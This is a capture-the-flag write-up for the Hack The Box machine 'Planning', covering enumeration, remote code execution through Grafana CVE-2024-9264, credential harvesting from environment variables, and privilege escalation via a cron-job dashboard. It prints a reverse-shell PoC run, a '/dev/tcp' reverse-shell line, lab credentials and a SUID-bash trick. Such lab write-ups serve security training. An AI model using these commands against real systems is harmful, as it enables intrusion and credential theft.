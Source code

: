 ```yaml
---
title: "HTB Machine: Planning"
description: Planning is an easy machine. discovering a vulnerable service, leveraging RCE, then using container and system misconfigurations for privilege escalation.
image: /images/Planning/Planning.png
date: 2025-05-11 23:42:00 +/-TTTT
categories: [HTB]
tags: [HTB, Linux, Grafana, Cronjob, pentest ]
---
```



## Informations
In this particular linux machine we have an user/password from the beginning: `admin::0D5oT70Fq13EvB5r`

## Enumeration

### Nmap scan

```sh
# Nmap 7.95 scan initiated Sun May 11 14:50:53 2025 as: /usr/lib/nmap/nmap --privileged -sV -sC -oN planning 10.10.11.68
Nmap scan report for 10.10.11.68
Host is up (0.32s latency).
Not shown: 893 closed tcp ports (reset), 105 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 11 14:51:05 2025 -- 1 IP address (1 host up) scanned in 11.98 seconds
```
### Fuzzing
#### Directories
```sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -u http://planning.htb/FUZZ
```
#### Domains

```sh
ffuf -u "http://planning.htb/" -H "Host: FUZZ.planning.htb"  -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fs 178

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 36ms]
```
## Exploitation
### Graphana : CVE-2024-9264
On grafana login page, we can use the user/password we have to enter the panels. Its seems to be pretty empty inside of Grafana, there are any dashboards, users or organizations that can be useful for us. If we check the Grafana version (v11.0.0) and looking for vulnerabiliies we should found the next one: `CVE-2024-9264` .

![login page](/images/Planning/login.png)

```sh
python3 poc.py --username admin --password 0D5oT70Fq13EvB5r  --reverse-ip 10.10.15.8 --reverse-port  1234 --url  http://grafana.planning.htb/
[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 1234
Failed to trigger reverse shell: 504 <html>
<head><title>504 Gateway Time-out</title></head>
<body>
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx/1.24.0 (Ubuntu)</center>
</body>
</html>
```
Before running the poc, We lunch our listenning process:

```sh
$ nc -lnvp 1234      
listening on [any] 1234 ...
connect to [10.10.15.8] from (UNKNOWN) [10.10.11.68] 59462
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# hostname
7ce659d667d7
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
OLDPWD=/
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=id
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/root
```
Using `env` variable, i find `enzo` credentiels :

```sh
$ ssh enzo@planning.htb 
enzo@planning.htb's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun May 11 01:38:07 PM UTC 2025

  System load:  0.3               Processes:             310
  Usage of /:   81.0% of 6.30GB   Users logged in:       1
  Memory usage: 58%               IPv4 address for eth0: 10.10.11.68
  Swap usage:   0%

  => There are 43 zombie processes.

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun May 11 13:38:08 2025 from 10.10.15.8
enzo@planning:~$ ls
user.txt
```
> i got the user flag.

## Privelege Escalation
Now, for privesc i started checking for open ports and sudo permissions and found some ports that can’t be reached from outside the machine and one json file with interesting information: `crontab.db`.

#### Netstat

```sh
enzo@planning:~$ netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:36993         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
```

#### crontab.db 

```sh
enzo@planning:~$ cat /opt/crontabs/crontab.db 
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
{"name":"","command":"bash -i >& /dev/tcp/10.10.14.54/4444","schedule":"* * * * *","stopped":false,"timestamp":"Sun May 11 2025 13:58:32 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1746971912096,"saved":false,"_id":"h9bCkXSsJHLDoV9A"}
```

#### Forward port 8000 to our Host 

```sh
$ ssh -L 8000:127.0.0.1:8000  enzo@planning.htb -N
enzo@planning.htb's password: 
```
![dashboard](/images/Planning/dashboard.png)

I add a job with command : `chmod u+s /tmp/bash` to get a root shell

![job](/images/Planning/job.png)

> In `enzo` shell we run :

```sh
enzo@planning:~$ /tmp/bash -p
bash-5.2# id
uid=1000(enzo) gid=1000(enzo) euid=0(root) groups=1000(enzo)
bash-5.2# cd /root
bash-5.2# ls
root.txt  scripts
```
Here we go !!! , we got the root flag